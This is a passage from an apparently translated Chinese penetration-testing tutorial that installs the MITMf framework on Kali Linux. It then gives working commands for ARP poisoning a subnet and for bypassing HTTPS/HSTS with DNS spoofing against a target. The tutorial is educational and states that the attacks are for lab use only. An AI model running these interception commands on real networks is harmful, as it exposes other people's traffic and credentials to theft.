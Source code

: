 4.  使用`mkvirtualenv MITMf -p /usr/bin/python2.7`命令创建虚拟环境并下载 MITMf 存储库，如以下屏幕截图所示：

![](img/80c17ae0-0b98-497f-9d93-8c180e044b97.png)

5.  下载存储库后，更改目录并克隆子模块：

```
cd MITMf && git submodule init && git submodule update -recursive
```

6.  使用以下命令安装依赖项：

```
pip install -r requirements.txt
```

7.  要查看帮助菜单，请使用以下命令：

```
python mitmf.py --help 
```

现在，您已经在 Kali Linux 机器上设置了 MITMf。接下来，让我们深入研究一下 MITMF 的使用案例。

# MITMf 的用例

以下是 MITMf 的各种使用案例：

请记住，所有攻击只能在实验室环境中执行，并且只能在您已获得合法许可的网络上执行。

*   您可以使用 MITMf 绕过 HTTPS：

```
python mitmf.py -i eth0 --spoof --arp --hsts --dns --gateway 10.10.10.1 --target 10.10.10.15
```

*   您可以在网关（`10.10.10.1`和整个子网之间执行 ARP 中毒攻击：

```
python mitmf.py -i eth0 --spoof --arp --gateway 10.10.10.1
```
